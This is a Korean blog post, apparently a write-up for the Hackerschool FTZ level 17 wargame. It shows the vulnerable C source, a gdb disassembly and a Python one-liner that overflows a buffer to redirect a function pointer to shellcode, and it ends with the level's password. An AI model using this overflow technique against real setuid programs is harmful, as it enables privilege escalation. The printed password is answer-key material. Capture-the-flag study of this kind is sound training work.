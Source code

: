 ```yaml
---
date: '2022-10-07'
before : '2022-10-06'
after : '2022-10-08'
title: '시스템 해킹(13) : 해커스쿨 FTZ 레벨 17'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제는 사실 정말 설명이 필요 없을정도로 Level 16과 비슷하다...

### 1. Level 17

소스코드부터 확인해보자.

```
#include <stdio.h>

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  setreuid(3098,3098);

  call();
}
```

크게 어려울 것 없는 코드다. 다만 이번엔 printit함수만 존재한다! 그렇다고 RET까지 가기에는 입력받는 범위가 모자라다. 


그럼 단순히 Shell 코드 환경변수 하나 만들어서 그 주소를 printit에 대입하면 될 것이다. 환경변수를 만들고 주소까지 확인하는 법은 내 블로그 FTZ Level12에 자세히 나와있다!


환경변수를 만들고 주소까지 확인해보니 :
```
0xbffffc18
```
값이 나왔다. gdb로 포인터와 배열 사이의 거리를 재보자.
```
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
0x080484e8 <main+64>:   nop
0x080484e9 <main+65>:   nop
```
예상했지만, 저번 문제와 똑같다(...) 그냥 저번 문제의 코드에서 주소만 쉘코드 주소로 바꿔서 넣어보니 문제가 풀린다.
```
(python -c 'print "A"*40+"\x18\xfc\xff\xbf"'; cat) | ./attackme
```

비밀번호 : why did you do it
---
## Source

- 해커스쿨 FTZ
- Me!



